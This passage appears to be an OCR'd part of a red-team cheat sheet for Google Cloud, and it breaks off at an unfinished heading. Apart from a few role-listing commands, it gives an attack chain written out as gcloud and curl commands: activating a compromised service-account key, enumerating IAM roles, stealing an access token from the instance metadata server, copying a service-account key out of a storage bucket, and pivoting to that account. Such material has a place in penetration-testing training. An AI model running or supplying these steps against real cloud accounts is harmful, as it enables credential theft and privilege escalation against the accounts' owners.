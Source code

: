 **Custom Roles:**
- List roles in a project: `gcloud iam roles list --project [ProjectID]`
- Retrieve permissions for a custom role: `gcloud iam roles describe [RoleName] --project [ProjectID]`

## Red Team Ops in GCP

**Configure Initial Compromised Service Account Credential:**
```bash
gcloud auth activate-service-account --key-file alert-nimbus-335411-4ee19bc40a65.json
```

**Enumerate Cloud Services:**
```bash
gcloud projects get-iam-policy alert-nimbus-335411
gcloud projects get-iam-policy alert-nimbus-335411 --flatten="bindings[].members" --filter="bindings.members=serviceaccount:auditor@alert-nimbus-335411.iam.gserviceaccount.com" --format="value(bindings.role)"
gcloud compute instances list
```

**Exploit Public Facing Application:**
```bash
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/233003792018-compute@developer.gserviceaccount.com/token
```

**Save and Validate Access Token:**
```bash
gcloud projects list --access-token-file token.txt
```

**Retrieve IAM Policy for Service Account Attached to Compute Instance:**
```bash
gcloud projects get-iam-policy alert-nimbus-335411
gcloud projects get-iam-policy alert-nimbus-335411 --flatten="bindings[].members" --filter="bindings.members=serviceaccount:233003792018-compute@developer.gserviceaccount.com" --format="value(bindings.role)"
```

**Exfiltrate Credentials:**
```bash
gcloud storage ls --access-token-file token.txt
gcloud storage ls gs://devops-storage-metatech --access-token-file token.txt
gcloud storage cp gs://devops-storage-metatech/devops-srvacc-key.json . --access-token-file token.txt
```

**Authenticate with New Service Account Key and Retrieve IAM Policy:**
```bash
gcloud auth activate-service-account --key-file devops-srvacc-key.json
gcloud projects get-iam-policy alert-nimbus-335411 --flatten="bindings[].members" --filter="bindings.members=serviceaccount:devops-service-account@alert-nimbus-335411.iam.gserviceaccount.com" --format="value(bindings.role)"
```

### **Where dafuck is the GCP Tools:**

